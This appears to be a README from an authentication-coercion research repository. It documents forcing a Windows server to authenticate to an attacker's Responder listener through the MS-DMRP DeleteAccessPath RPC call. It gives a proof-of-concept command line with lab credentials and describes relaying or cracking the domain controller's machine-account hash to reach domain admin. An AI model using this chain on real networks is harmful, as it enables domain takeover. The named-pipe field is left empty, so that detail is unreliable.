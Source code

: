 # MS-DMRP - Remote call to IVolumeClient3::DeleteAccessPath (opnum 78)

## Summary

 - **Protocol**: [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd)

 - **Protocol UUID**: d2d79df5-3400-11d0-b40b-00aa005ff586

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`IVolumeClient3::DeleteAccessPath`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/9c77adb9-9336-4fcd-acbe-9ee8ead95c5c)

 - **Function operation number**: `78`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol (with uuid `d2d79df5-3400-11d0-b40b-00aa005ff586` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) and allows to call RPC functions of this protocol. We will then call the remote [`IVolumeClient3::DeleteAccessPath`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/9c77adb9-9336-4fcd-acbe-9ee8ead95c5c) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IVolumeClient3::DeleteAccessPath('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT DeleteAccessPath(
   [in] LdmObjectId volumeId,
   [in] int cch_path,
   [in, size_is(cch_path)] WCHAR* path
 );
```

## References

 - Documentation of protocol [MS-DMRP]: Disk Management Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd

 - Documentation of function `IVolumeClient3::DeleteAccessPath`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/9c77adb9-9336-4fcd-acbe-9ee8ead95c5c